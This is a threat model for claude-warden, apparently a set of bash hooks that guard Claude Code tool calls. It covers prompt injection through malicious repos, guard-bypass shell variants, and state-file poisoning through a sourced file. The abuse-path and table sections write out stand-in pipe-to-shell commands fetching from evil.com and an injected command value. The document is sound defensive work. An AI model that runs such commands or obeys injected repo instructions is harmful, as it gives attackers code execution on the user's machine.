

# claude-warden Threat Model

## Executive summary

claude-warden is a set of bash shell hooks that intercept Claude Code tool calls
on a single-user workstation. The primary risk themes are: (1) **prompt injection
as an indirect attack vector** -- a malicious repository could craft content that
tricks Claude into issuing tool calls designed to exploit hook parsing or bypass
guards; (2) **state file integrity** -- hooks read/write unprotected files in
`~/.claude/` that could be tampered with by a compromised local process or
malicious download; and (3) **guard bypass** -- pattern-matching guards can be
circumvented with shell syntax variations, reducing their effectiveness as a
security boundary (they are token-saving optimizations, not security controls).

## Scope and assumptions

### In-scope

- All files in `~/dev/claude-warden/`: 11 hook scripts, `statusline.sh`,
  `install.sh`, `uninstall.sh`, `settings.hooks.json`
- State files written to `~/.claude/.statusline/`, `~/.claude/.subagent-state/`,
  `~/.claude/.session-times/`, `~/.claude/.session-budgets/`
- The interaction model: Claude Code -> JSON on stdin -> hook script -> JSON/exit
  code response

### Out of scope

- Claude Code itself (Anthropic's closed-source CLI)
- `budget-cli` (external optional tool)
- CI/CD pipelines (none exist)
- Network services (none exist)

### Assumptions

1. **Single-user workstation**: `~/.claude/` is owned by and writable only by the
   current user. Other local users cannot write to it.
2. **Claude Code is trusted infrastructure**: The JSON provided on stdin to hooks
   is generated by Claude Code. Fields like `transcript_path`, `session_id`, and
   `agent_id` are set internally by Claude Code, not directly by end users.
3. **Prompt injection is the primary external threat**: A malicious repo (cloned
   locally) could contain crafted CLAUDE.md files, source code comments, or
   documentation that instruct Claude to issue specific tool calls designed to
   exploit hook weaknesses.
4. **Downloaded files are untrusted**: The user is concerned about outside threats
   via file downloads and cloned repositories.
5. **Hooks are advisory, not security boundaries**: The guards primarily save
   tokens. Claude Code's own permission system is the actual security boundary.
   A bypass of a hook guard results in wasted tokens, not code execution.

### Open questions

- Does Claude Code sanitize `transcript_path` to prevent path traversal? (We
  assume yes but added defense-in-depth.)
- Could a future Claude Code update change the JSON schema, breaking hook parsing?
- Are there Claude Code versions where `$HOME` is not expanded in
  `settings.json` command fields?

## System model

### Primary components

| Component | Description | Evidence |
|---|---|---|
| Claude Code CLI | Anthropic's CLI that executes tool calls and invokes hooks | External, not in repo |
| Hook scripts (11) | Bash scripts in `hooks/` receiving JSON on stdin | `hooks/*` |
| Statusline script | Bash script rendering status bar from JSON | `statusline.sh` |
| State files | Flat files tracking session metrics, subagent counts, budget | Written to `~/.claude/.statusline/`, `~/.claude/.subagent-state/` |
| Settings JSON | Claude Code configuration with hook command paths | `settings.hooks.json` |
| Install/Uninstall | Setup scripts that symlink hooks and merge settings | `install.sh`, `uninstall.sh` |

### Data flows and trust boundaries

- **Claude Code -> Hook scripts** (stdin JSON): Tool call metadata, file paths,
  command strings. Channel: stdin pipe. Security: Claude Code controls what JSON is
  sent. No authentication (same-user process). Schema is implicit (no validation
  beyond jq field extraction).

- **Hook scripts -> Claude Code** (stdout JSON + exit code): Allow/block decisions,
  output modifications. Channel: stdout pipe. Security: Exit code 0 = allow,
  exit code 2 = block. Malformed JSON is ignored by Claude Code.

- **Hook scripts -> State files** (filesystem writes): Session counters, timestamps,
  budget snapshots. Channel: direct file I/O. Security: Standard POSIX file
  permissions (user-only). No encryption. mkdir-based locking for concurrent access.

- **Install script -> ~/.claude/** (filesystem writes): Symlinks, settings merge.
  Channel: direct file I/O. Security: Ownership check on `~/.claude/` before
  proceeding. Backup of existing files.

- **Malicious repo -> Claude Code -> Hook scripts** (indirect): Prompt injection
  in repo files could instruct Claude to craft specific tool calls. Channel:
  Claude's context window. Security: Claude Code's own safety filters, plus hook
  guards as secondary defense.

#### Diagram

## Assets and security objectives

| Asset | Why it matters | Security objective |
|---|---|---|
| Hook scripts (`hooks/*`) | Execute as the user on every tool call; compromise = arbitrary code execution | Integrity |
| `~/.claude/settings.json` | Controls which hooks run and their timeouts; tampering could disable all guards | Integrity |
| State files (`~/.claude/.statusline/`, `.subagent-state/`) | Used in `source` command and file path construction; tampering could inject code | Integrity |
| Session logs (`session-log.txt`, `errors.log`, `agent-stats.csv`) | Contain working directory paths, branch names, timing data | Confidentiality |
| Budget data (`session-budgets/`, `budget-alert`) | Token usage tracking | Integrity, Availability |
| User's filesystem | Hooks block destructive commands; bypass could waste tokens on dangerous ops | Integrity, Availability |

## Attacker model

### Capabilities

- **Prompt injection via malicious repo**: Attacker controls content of a cloned
  repository (CLAUDE.md, source files, documentation). Can embed instructions that
  Claude may follow, including crafting specific bash commands or tool calls.
- **Malicious file download**: User downloads a file that, when read by Claude,
  contains prompt injection payloads.
- **Compromised local process**: A separate malicious process running as the same
  user could tamper with state files, hook scripts (if not symlinked to
  read-only repo), or settings.json.

### Non-capabilities

- **Cannot directly invoke hooks**: Only Claude Code sends JSON to hook stdin.
  An attacker cannot directly call the hooks (though they could run the scripts
  manually, this gains nothing beyond what they already have as the local user).
- **Cannot modify hook scripts in symlink mode**: If hooks are symlinked to the
  git repo, modifying them requires write access to the repo directory.
- **Cannot bypass Claude Code's own permission system**: Hooks are a secondary
  layer. Claude Code's built-in `permissions.allow`/`deny` and user confirmation
  prompts are the primary security boundary.
- **Cannot execute arbitrary code via hook JSON output**: Hooks output JSON that
  Claude Code parses. There is no eval or code execution path from hook output
  to shell execution.

## Entry points and attack surfaces

| Surface | How reached | Trust boundary | Notes | Evidence |
|---|---|---|---|---|
| `tool_input.command` | JSON from Claude Code, influenced by prompt | Claude Code -> hook stdin | Used in regex matching, never executed by hooks | `hooks/pre-tool-use:14` |
| `tool_input.file_path` | JSON from Claude Code | Claude Code -> hook stdin | Used in `stat`, `file`, pattern matching | `hooks/read-guard:19` |
| `transcript_path` | JSON from Claude Code | Claude Code -> hook stdin | Used to derive AGENT_ID for `source` | `hooks/pre-tool-use:62` |
| `agent_id` | JSON from Claude Code | Claude Code -> hook stdin | Used in file paths and budget-cli args | `hooks/subagent-start:10` |
| `session_id` | JSON from Claude Code | Claude Code -> hook stdin | Used in file path construction | `hooks/session-start:6` |
| State files | Written/read by hooks | Filesystem boundary | `source` command reads from `.subagent-state/` | `hooks/pre-tool-use:66` |
| `install.sh` execution | User runs manually | User -> script | Merges settings, creates symlinks | `install.sh` |
| `settings.hooks.json` | Read by install.sh, merged into settings | Repo -> filesystem | Defines which hooks run | `settings.hooks.json` |

## Top abuse paths

1. **Prompt injection -> guard bypass -> token waste**: Malicious repo contains
   CLAUDE.md with instructions like "always use `npm install` without flags".
   Claude follows the instruction, `pre-tool-use` blocks it, but the attacker
   iterates with bypass variants (`npm i --silent && npm i` or backtick
   obfuscation). Impact: wasted tokens, not code execution.

2. **Prompt injection -> state file poisoning -> code injection via source**:
   Malicious repo instructs Claude to write a file to
   `~/.claude/.subagent-state/<agent-id>` containing `AGENT_TYPE=Explore;
   malicious_command`. When `pre-tool-use` sources the state file, the injected
   command executes. **Mitigated**: AGENT_ID is now sanitized to `[a-zA-Z0-9_-]+`,
   and Claude Code controls subagent state directory writes (hooks write there,
   not Claude's tool calls). The attacker would need Claude to use Bash/Write to
   target the specific state directory path.

3. **Prompt injection -> permission-request bypass -> dangerous command**:
   Malicious repo instructs Claude to run `bash <(curl http://evil.com/payload)`
   instead of `curl http://evil.com/payload | bash`. The permission-request hook
   now catches both patterns. Remaining bypass risk: novel shell syntax variants.
   **Mitigated partially**: Pattern list expanded, but fundamentally not a complete
   defense (Claude Code's own permission prompt is the real boundary).

4. **Malicious download -> binary disguised as text -> read-guard bypass**:
   Attacker provides a file that `file(1)` identifies as "ASCII text" but contains
   embedded control sequences or very long lines designed to waste context. The
   `read-guard` hook checks size (2MB limit) but not line length.
   Impact: token waste.

5. **Compromised process -> settings.json tampering -> hook disablement**:
   A malicious local process overwrites `~/.claude/settings.json` to remove all
   hook entries. Next Claude Code session runs without any guards.
   **Mitigated partially**: install.sh checks ownership, but a same-user process
   has full write access.

6. **Compromised process -> symlink swap in ~/.claude/hooks/**:
   Attacker replaces a symlink in `~/.claude/hooks/` to point to a malicious script.
   Next hook invocation executes attacker code as the user.
   **Mitigated**: In symlink mode, the symlinks point to the git repo. Attacker
   needs write access to `~/.claude/hooks/` (same user) to replace them.

7. **Race condition in state file locking -> corrupted budget tracking**:
   Concurrent subagent starts/stops race on the lock directory. If corruption
   occurs, budget tracking becomes inaccurate, potentially allowing more subagents
   than intended. Impact: token waste, not code execution.

## Threat model table

| ID | Source | Prerequisites | Action | Impact | Assets | Existing controls | Gaps | Mitigations | Detection | Likelihood | Impact | Priority |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| TM-001 | Prompt injection | Malicious repo cloned locally | Inject instructions to write to `~/.claude/.subagent-state/` via Bash/Write tool | Arbitrary code execution via `source` in pre-tool-use | Hook scripts, user filesystem | AGENT_ID sanitization (`[a-zA-Z0-9_-]+`), Claude Code permission prompts for Write | Claude could be instructed to write to the exact state dir path | Consider making state files read-only after write, or validate file content before sourcing | Monitor `~/.claude/.subagent-state/` for unexpected writes | Low | High | Medium |
| TM-002 | Prompt injection | Malicious repo cloned locally | Craft bash commands using syntax variants that bypass pattern guards | Verbose/dangerous commands execute, wasting tokens | Token budget, user time | Pattern matching in pre-tool-use and permission-request, Claude Code's own permission prompt | Pattern matching is inherently incomplete against shell syntax creativity | Accept that hooks are advisory; document that Claude Code permissions are the security boundary | Log blocked commands to detect escalating bypass attempts | Medium | Low | Low |
| TM-003 | Compromised process | Malicious software running as same user | Overwrite `~/.claude/settings.json` to remove hooks, or replace hook symlinks | All hook guards disabled silently | Settings, hook scripts | install.sh ownership check | Same-user process has full write access | Set immutable bit on settings.json (`chattr +i`), or use inotifywait to detect changes | Compare settings.json hash at session start vs known-good | Low | High | Medium |
| TM-004 | Compromised process | Same-user malicious process | Write crafted content to `~/.claude/.subagent-state/<id>` | Code injection when `source` reads the file | Hook execution context | AGENT_ID format validation, state dir is user-owned | No content validation of sourced files | Validate state file content matches expected `KEY=VALUE` format before sourcing | Hash state files after write, verify before source | Low | High | Medium |
| TM-005 | Prompt injection | Malicious repo with embedded instructions | Instruct Claude to read a massive generated file, bypassing read-guard patterns | Token exhaustion from reading multi-MB file content | Token budget | read-guard blocks known patterns (node_modules, dist, .min.js), 2MB size limit | Novel file paths not in pattern list bypass the guard | Size limit is the robust control; pattern list is supplementary | Monitor read-compress activation frequency for anomalies | Medium | Low | Low |
| TM-006 | Race condition | Multiple concurrent subagent starts/stops | Corrupt subagent count file during lock acquisition | Inaccurate budget tracking, possible extra subagent spawns | Budget tracking, token usage | mkdir-based locking with 500ms timeout, stale lock detection (5s) | Lock directory could be removed between check and use (TOCTOU) | Accept minor race risk; state files are advisory, not security-critical | Log lock acquisition failures | Low | Low | Low |
| TM-007 | Information disclosure | Access to `~/.claude/` directory | Read session-log.txt, errors.log, agent-stats.csv | Exposure of working directories, branch names, session timing | Session metadata, project structure | Standard POSIX file permissions (user-only) | No explicit chmod on log files; umask determines permissions | Add explicit `chmod 600` on log file creation | Audit file permissions in `~/.claude/` periodically | Low | Low | Low |
| TM-008 | Prompt injection | Malicious repo | Instruct Claude to run `bash <(curl ...)` or novel pipe-to-shell variant | Remote code execution if user approves permission prompt | User filesystem, credentials | Expanded pattern matching in permission-request, Claude Code permission prompt | Shell syntax is Turing-complete; can't catch all variants | This hook is defense-in-depth; Claude Code's permission prompt is primary | Log denied permission requests | Low | High | Medium |

## Criticality calibration

**Critical** (not present in this repo's context):
- Pre-auth RCE via network service (N/A -- no network exposure)
- Sandbox escape from hook to elevated privileges (N/A -- hooks run as user)

**High**:
- Arbitrary code execution via `source` of attacker-controlled state file (TM-001, TM-004)
- Complete hook disablement via settings.json tampering (TM-003)
- Remote code execution via permission-request bypass + user approval (TM-008)

**Medium**:
- Guard bypass leading to significant token waste (TM-002, TM-005)
- State file corruption affecting budget tracking (TM-006)

**Low**:
- Information disclosure from log files (TM-007)
- Minor race conditions in counter files (TM-006)

## Focus paths for security review

| Path | Why it matters | Related Threat IDs |
|---|---|---|
| `hooks/pre-tool-use:60-68` | `source` command with AGENT_ID-derived path; primary code injection vector | TM-001, TM-004 |
| `hooks/pre-tool-use:130-170` | Pattern matching for verbose/dangerous commands; bypass surface | TM-002 |
| `hooks/permission-request:18-43` | Dangerous command pattern matching; bypass variants | TM-008 |
| `hooks/subagent-start:31-46` | mkdir-based locking; race condition surface | TM-006 |
| `hooks/subagent-start:50-58` | budget-cli invocations with AGENT_ID argument | TM-001 |
| `hooks/read-guard:26-43` | Bundled file pattern list; bypass with novel paths | TM-005 |
| `hooks/read-compress:40-42` | Line count threshold; boundary between compress/passthrough | TM-005 |
| `install.sh:75-84` | Ownership verification; security gate for installation | TM-003 |
| `hooks/session-end` | Writes to multiple state/log files; disclosure surface | TM-007 |
| `hooks/tool-error:15-23` | Logs sensitive context (git branch, PWD) | TM-007 |

## Quality check

- [x] All entry points discovered (stdin JSON fields, state files, install script) are covered in threats
- [x] Each trust boundary (Claude Code -> hooks, hooks -> state files, hooks -> Claude Code, install -> filesystem) represented
- [x] Runtime behavior separated from install/setup tooling
- [x] User clarifications reflected: single-user with external threat concern, prompt injection in scope, fixes applied
- [x] Assumptions and open questions explicitly stated
- [x] Fixes applied: AGENT_ID sanitization (TM-001/TM-004), lock cleanup (TM-006), ownership check (TM-003), permission patterns (TM-008)
